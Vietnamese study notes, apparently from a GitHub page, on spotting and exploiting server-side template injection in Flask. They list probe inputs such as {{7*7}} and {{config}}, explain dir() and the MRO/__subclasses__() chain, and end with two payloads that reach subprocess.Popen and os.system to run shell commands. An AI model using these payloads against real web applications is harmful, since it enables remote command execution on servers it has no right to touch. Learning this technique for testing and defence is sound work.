




## nhận biết ssti flask
{{7*7}} => output 49
{{config}}
{{self}}
{{request}}
# dir() function:
khi hàm không có tham số, nó sẽ trả về một danh sách các biến , phương thức và cá kiểu được xác định trong phạm vi hiện tại. khi nhận tham số, nó sẽ trả về một danh sách các thuộc tính và phương thức tham số.

# MRO

kiểu như xác định các lớp được kế thừa, sau đó sử dụng __subclasses__() để lấy ra tất cả các đối tượng có thể lấy ở thời điểm hiện tại


# exploit
kết hợp những điều trên ta được
## sử dụng os._wrap_close hoặc subprocess.Popen để get shell
```
Test1.__mro__[2].__subclasses__()[184]('id',shell=True,stdout=-1).communicate()[0].strip()
Test1.__mro__[2].__subclasses__()[117].__init__.__globals__['system']('id')
```

